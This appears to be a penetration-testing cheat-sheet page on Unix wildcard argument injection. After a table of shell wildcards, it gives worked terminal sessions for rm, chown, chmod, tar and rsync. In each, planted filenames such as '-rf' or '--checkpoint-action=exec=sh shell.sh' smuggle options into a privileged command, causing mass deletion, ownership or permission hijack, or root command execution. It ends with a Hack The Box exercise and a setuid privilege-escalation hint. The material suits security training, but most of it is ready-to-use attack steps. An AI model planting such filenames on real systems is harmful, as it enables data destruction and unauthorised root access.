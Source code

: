 ## Wildcards

| Char | Description    |
| :--  | :------------- |
| *    |  Any number of characters, including none. |
| ?    |  Any single character. |
| [ ]  |  Set of characters, any one of which may match a single character at that position. |
| -    |  Used within [ ] denotes a range of characters. |
| ~    |  At the beginning of a word expands to the name of your home directory.  If you append another user's login name to the character, it refers to that user's home directory. |

### Using wildcard to inject arguments

```
# ls -al
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR1
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR2
-rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file1.txt
-rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file2.txt
-rw-rw-r--.  1 nobody nobody    0 Oct 28 16:38 -rf

# rm *
# ls -al
-rw-rw-r--.  1 nobody nobody    0 Oct 28 16:38 -rf

# strace rm *
execve("/bin/rm", ["rm", "DIR1", "DIR2", "file1.txt", "file2.txt", "-rf"], [/* 25 vars */]) = 0
```

### chown

```
--reference=RFILE
          use RFILE's owner and group rather than specifying OWNER:GROUP values
```

```
# ls -la
-rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
-rw-rw-r--.  1 user user  117 Oct 28 17:35 inc.php
-rw-rw-r--.  1 user user  111 Oct 28 17:38 index.php
-rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php

# chown -R nobody:nobody *.php

# ls -la
-rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
-rw-rw-r--.  1 leon leon  117 Oct 28 17:35 inc.php
-rw-rw-r--.  1 leon leon  111 Oct 28 17:38 index.php
-rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
```

### chmod

```
--reference=RFILE
              use RFILE's mode instead of MODE values
```

```
# ls -la
-rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
-rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
-rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
-rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php

# chmod 000 *

# ls -la
-rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
-rwxrwxrwx.  1 user user   117 Oct 28 17:36 inc.php
-rwxrwxrwx.  1 user user   111 Oct 28 17:38 index.php
-rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
```

### tar command Execution

```
--checkpoint[=NUMBER]
    display progress messages every NUMBERth record (default 10)

--checkpoint-action=ACTION
    execute ACTION on each checkpoint
```

```
# ls -la
-rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
-rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
-rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
-rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
-rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

#  tar cf archive.tar *
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

### Rcync command Execution

```
-e, --rsh=COMMAND           specify the remote shell to use
    --rsync-path=PROGRAM    specify the rsync to run on remote machine
```

```
# ls -al
-rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
-rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
-rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
-rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

# rsync -t *.c foo:src/
rsync: connection unexpectedly closed (0 bytes received so far) [sender]
rsync error: error in rsync protocol data stream (code 12) at io.c(601) [sender=3.0.8]

# ls -al
-rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
-rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
-rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
-rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
-rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

# cat shell.c
/usr/bin/id > shell_output.txt

# cat shell_output.txt
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

### Practice

- HTB - Joker

### Usage

- Create a script, setuid bit and then use this attack to `chown` the script to gain prev-esc
